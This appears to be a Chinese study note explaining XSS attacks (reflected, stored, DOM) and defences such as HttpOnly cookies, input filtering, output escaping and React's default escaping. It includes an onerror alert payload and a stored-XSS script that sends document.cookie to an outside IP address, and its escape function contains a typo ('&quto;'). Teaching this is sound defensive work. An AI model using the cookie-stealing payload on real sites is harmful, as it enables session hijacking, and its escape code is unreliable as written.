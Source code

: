 # XSS 攻击
## 什么是 XSS 攻击？
XSS 是 Cross-Site Scripting（跨站脚本攻击）的简称,为了和 CSS 区分，所以把攻击的第一个字母改为 X。
是一种代码注入攻击。攻击者通过在在网站注入恶意脚本，使之在用户的浏览器上运行。恶意脚本可以获取用户的信息如 cookie 等，进而危害数据安全。

以下情况容易发生 XSS 攻击
1. 从一个不可靠的链接进入到一个 Web 应用程序
2. 没有过滤掉恶意代码的动态内容被发送给 Web 用户

恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。攻击方式有很多种，但他们的 *共同点为*：**将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作**。

跨站体现在哪里？
所获取到的 cookie 发送给 XSS 平台

常见的 XSS 平台
DVWA



## XSS 分类
根据攻击的来源，可以分为存储型、反射型、DOM型。

| 类型      | 存储区                  | 插入点          |
| --------- | ----------------------- | --------------- |
| 反射型 XSS | URL                     | HTML            |
| 存储型 XSS | 后端数据库              | HTML            |
| DOM 型 XSS  | 后端数据库/前端存储/URL | 前端/JavaScript |




### 反射型 XSS
反射型指的是：攻击者构建了特殊的 URL，当服务器接收到请求后，从 URL 中获取数据，拼接到 HTML 后返回，从而导致恶意代码的执行。

场景：
有个搜索接口，后端是搜索内容，如果不对数据做转义等处理，可能会造成这样的 URL
```bash
https: //xxx.com/search?query=<img src="enpty.png" onerror="alert('xss')">
```
反射型是在无害 url 的基础上构造特殊的 url，在 url 上给注入点 get 特殊的字符串，当别人点击构造的链接时触发恶意代码；

具体流程：
当攻击者构建了这个 url 之后，会把这个 url 做成一个链接，用户点击了这个链接之后就会执行恶意代码。
为了隐蔽起见，可能会使用一些技术比如：短网址，把现在 url 压缩。这样用户更容易上当。


常见于 GET 的方式，POST 的内容也可以触发

低危漏洞



### 存储型 XSS
存储型指的是：攻击者将恶意代码提交到了网站的数据库中，当用户请求数据的时候，服务器将其拼接为 HTML 后返回给了用户，从而导致了恶意代码的执行。

比如将 恶意代码提交到后端去，那么所有访问这个网页的用户，都会报错。
场景：
比如一个留言板，攻击者在留言板写入恶意代码，提交的字符串上传到了服务器，当别人访问这个留言板时就会触发代码；
代码执行的过程中，有可能会获取用户的 cookie，然后发送到攻击者所在的机器上，或者指定的服务器上，这样攻击者就可以盗用用户的 cookie 登录到这个网站

具体流程：
有个论坛，大家可以发布留言。然后后面的用户进来可以看到这些留言
* 如果说留言是一个文本输入框，那么攻击者如果输入 `<script>alert('这里我注入一些恶意代码')</script>` 那么浏览器就会执行里面的代码，所有进入这个页面的用户，就都会弹出这些内容。
* 同样是这个输入框，如果用户是写入的如下代码 
  ```javascript
  <script>document.write('<img src="http://172.22.144.20/?'+document.cookie+'"/>');</script>
  ```
  那么用户浏览到这个页面的时候，就会把自己的 cookie 发送到这台机器上。然后攻击者可以使用拿到的 cookie 信息，登录账号做一些恶意行为


高危漏洞


### DOM 型 XSS
DOM 型指的是：攻击者构建了特殊的 URL，用户打开网站后， js 脚本 从 URL 中获取数据，从而导致了恶意代码的执行。
类似于反射型，区别在于 DOM 型 XSS 并不会和后台进行交互，前端直接将 URL 中的数据不做处理并动态插入到 HTML中，是纯粹的前端安全问题，要做防御也只能在客户端上进行防御。

场景：当你在一个购物网站搜索「上衣」，返回页面中显示「上衣的搜索结果如下：」，这里的上衣可能就是直接由 JS 获取你提交的值插入的，而不是从后端而来。

低低危漏洞


## 防范措施

### HttpOnly
浏览器将禁止页面的 JavaScript 访问带有 HttpOnly 属性的 Cookie
就是服务器在 setCookie 的时候，设置 HttpOnly；
在 cookie 中设置 HttpOnly 属性后，JS 脚本将无法读取到 cookie 信息。

它解决的是 XSS 后 Cookie 劫持问题。就是无法拿到这种类型的 Cookie。




### 输入检查（输入过滤）
原则：**不要相信用户的任何输入**。

措施：对于用户的任何输入要进行检查、过滤、转义。建立可信任的字符和 HTML 标签白名单，对于不在白名单之列的字符或者标签进行过滤或编码。

说明：而在一些前端框架中，都会有一份 decodingMap， 用于对用户输入所包含的特殊字符或标签进行编码或过滤，如 <，>，script，防止 XSS 攻击。

一般是对输入格式的检查，例如：用户名、密码、邮箱、电话号码...等，按照规定的格式输入。

### 输出检查（转义 HTML）
一般说来，所有需要输出到 HTML 页面的变量，全部需要使用编码或者转义来防御。
措施：对内容进行编码或者转义。


比如对于 `"`、`<`、`>`、`/`、`&`、`'` 等进行转义
```javascript
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}

```


### 白名单






## React 如何防范 XSS 攻击
React DOM 在渲染所有输入内容之前，默认会进行转义。
所有的内容在渲染之前都被转换成了字符串，因此恶意代码无法成功注入，从而有效地防止了 XSS 攻击。我们具体看下：

但是有一个需要自己考虑 `dangerouslySetInnerHTML` 
```javascript
 <p
  dangerouslySetInnerHTML={{
    __html: getURL(dialogData.content),
  }}
 />
```

